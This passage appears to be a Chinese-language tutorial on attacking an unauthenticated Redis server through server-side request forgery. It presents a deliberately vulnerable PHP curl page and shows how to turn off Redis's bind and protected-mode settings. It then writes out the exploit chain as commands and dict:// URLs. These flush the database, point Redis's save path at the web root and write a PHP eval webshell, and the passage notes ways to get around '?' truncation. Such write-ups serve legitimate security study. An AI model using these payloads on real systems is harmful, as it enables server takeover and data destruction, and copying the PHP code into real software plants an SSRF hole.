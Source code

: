 数据类型以不同的符号区分开，后面跟数字表示个数。

**简单的利用环境**

```php
<?php
    highlight_file(__FILE__);
    $url = $_GET['url'];
    $curl = curl_init($url);    
    /*进行curl配置*/
    curl_setopt($curl, CURLOPT_HEADER, 0); // 不输出HTTP头
    $response = curl_exec($curl);
    echo $response;
    curl_close($curl);
?>
```

在redis绑定在`0.0.0.0:6379`暴露在公网且处于默认配置密码为空的情况下，攻击者可以直接连接进行通信。

在3.2之后，配置文件中`/etc/redis/redis.conf`的新增有两个选项

```plain
1.bind 127.0.0.1 ::1  #只允许通过本地登录      
2.procted-mode #如果没有配置bind 只有启动redis服务的机器登录
```



注释掉第一句，将第二句修改为no，即可复现该漏洞。

### 2.1.1 写入webshell

```plain
flushall   #清空所有键值对 （慎用）
config set dir /var/www/html #设置备份文件目录
config set dbfilename shell.php  #设置备份文件名称
set webshell "<?php eval($_POST[1]);?>" #写入一条数据
save #保存
```

-  利用dict协议

当时`?`会被截断导致无法写入，所以可以利用16进制编码、`setbit`、`bitop`绕过进行写入

-  完整的利用思路 

- - 首先

​	`?url=dict://127.0.0.1:6379/config set dir /var/www/html`  设置路径为/var/www/html 

- - 第二步

​	`?url=dict://127.0.0.1:6379/config set dbfilename shell.php`  设置备份数据库文件为shell.php 

- -  第三步
    `?url=dict://127.0.0.1:6379/set 1 "<?php eval($_POST[1]);?>"`   问号会被截断所以这一步需要利用一些绕过方式，同时也要注意单引号和双引号。 
  -  第四步
    `?url=dict://127.0.0.1:6379/save`：保存到文件 
